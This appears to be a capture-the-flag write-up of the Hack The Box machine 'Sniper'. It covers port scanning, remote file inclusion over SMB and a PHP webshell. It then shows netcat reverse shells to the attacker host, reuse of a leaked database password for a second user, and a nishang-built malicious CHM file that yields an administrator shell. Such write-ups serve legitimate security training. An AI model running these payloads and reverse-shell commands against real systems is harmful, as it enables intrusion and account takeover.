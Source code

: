 nmap scan

```
sudo nmap -p- --min-rate 10000 -oA nmap 10.10.10.151
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```

### Enumerating port 80

There's this website:

![image1](/assets/images/htb-sniper/sniper1.png)

Going to `/blog` we have this:

![image2](/assets/images/htb-sniper/sniper2.png)

We can change the language:

![image3](/assets/images/htb-sniper/sniper3.png)
 
 I can test for LFI:
 
 ![image4](/assets/images/htb-sniper/sniper4.png)
 
 And it is vulnerable to LFI

### Getting RCE from RFI

First thing I started a http server and try to get a file:

```
GET /blog/?lang=http://10.10.14.13/tmp.php HTTP/1.1
```

But I don't get a request back, after that I'll try with SMB with the `smbserver.py`  from impacket:

```
GET /blog/?lang=//10.10.14.13/tmp.php HTTP/1.1
```

I get a callback but doens't get the file:

```
[*] Incoming connection (10.10.10.151,49689)
[*] Closing down connection (10.10.10.151,49689)
[*] Remaining connections []
```

I'll use Samba, first edit this file with this `/etc/samba/smb.conf`:

```
[share]
   comment = Users profiles
   path = /srv/smb
   guest ok = yes
   browseable = yes
   create mask = 0600
   directory mask = 0700
```

Start the service:

```
sudo systemctl start smbd
```

Now I'll try to get the file:

 ![image5](/assets/images/htb-sniper/sniper5.png)

Now we successfully get the file, the next thing, I'll create a file with:

```
<?php
phpinfo();
?>
```

To check if there are disabled functions:

```
GET /blog/?lang=//10.10.14.13/share/check.php HTTP/1.1
```

 ![image6](/assets/images/htb-sniper/sniper6.png)
 
 There aren't disabled functions so now we have RCE, first I'll create a file to execute commands:
 
 ```
<?php
system($_GET["cmd"]);
?>
```

And we are going to execute `dir`:

 ![image7](/assets/images/htb-sniper/sniper7.png)
 
### Getting a reverse shell

I'll download the binary `nc64.exe`:

```
GET /blog/?lang=//10.10.14.13/share/rce.php&cmd=copy+\\10.10.14.13\share\nc64.exe+c:\programdata\nc.exe
```

And execute it:

```
GET /blog/?lang=//10.10.14.13/share/rce.php&cmd=c:\programdata\nc.exe+-e+cmd.exe+10.10.14.13+9001 
```

And we have a shell:

```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.10.151 49699
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>
```

### Enumerating for privesc vectors

On `C:\inetpub\wwwroot\user\` there's `db.php`:

```
type db.php
type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

We have a password `36mEAhz/B8xQ~2VM` to see from who is this password I'll see which users are on the machine:

```
C:\inetpub\wwwroot\user>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount           
Guest                    WDAGUtilityAccount       
The command completed with one or more errors.
```

So it will probably be of Chris, first I'll set up the password to be used:

```
$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Sniper\\Chris",$pass)
```

And now I can execute commands:

```
Invoke-Command -ComputerName Sniper -Credential $cred -ScriptBlock {whoami}
sniper\chris
```

### Getting a reverse shell as Chris

I'll execute `nc.exe`:

```
Invoke-Command -ComputerName Sniper -Credential $cred -ScriptBlock {c:\programdata\nc.exe -e cmd.exe 10.10.14.13 9002}
```

And I get the shell back:

```
rlwrap nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.10.151 49741
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>
```

### Enumerating as Chris

We have a `\Docs` directory on `C:` with a `.txt` and a `.pdf`

`note.txt`:

```
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```

On `c:\users\chris\downloads` there's a `.chm` file:

```
c:\Users\Chris\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of c:\Users\Chris\Downloads

04/11/2019  07:36 AM    <DIR>          .
04/11/2019  07:36 AM    <DIR>          ..
04/11/2019  07:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)  17,984,270,336 bytes free
```

### Creating a malicious chm file

With a windows machine with the nishang repo I'll use the `out-chm.ps1` (on `nishang/client/`):

```
 . .\Out-CHM.ps1
Out-CHM -Payload "cmd /c C:\programdata\nc.exe -e cmd.exe 10.10.14.13 9003" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

I'll upload the file to the machine:

```
copy \\10.10.14.13\share\doc.chm .
```

Now I set up a listener and I get a shell as administrator back

```
rlwrap nc -lvnp 9003
Listening on 0.0.0.0 9003
Connection received on 10.10.10.151 49686
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\administrator
```

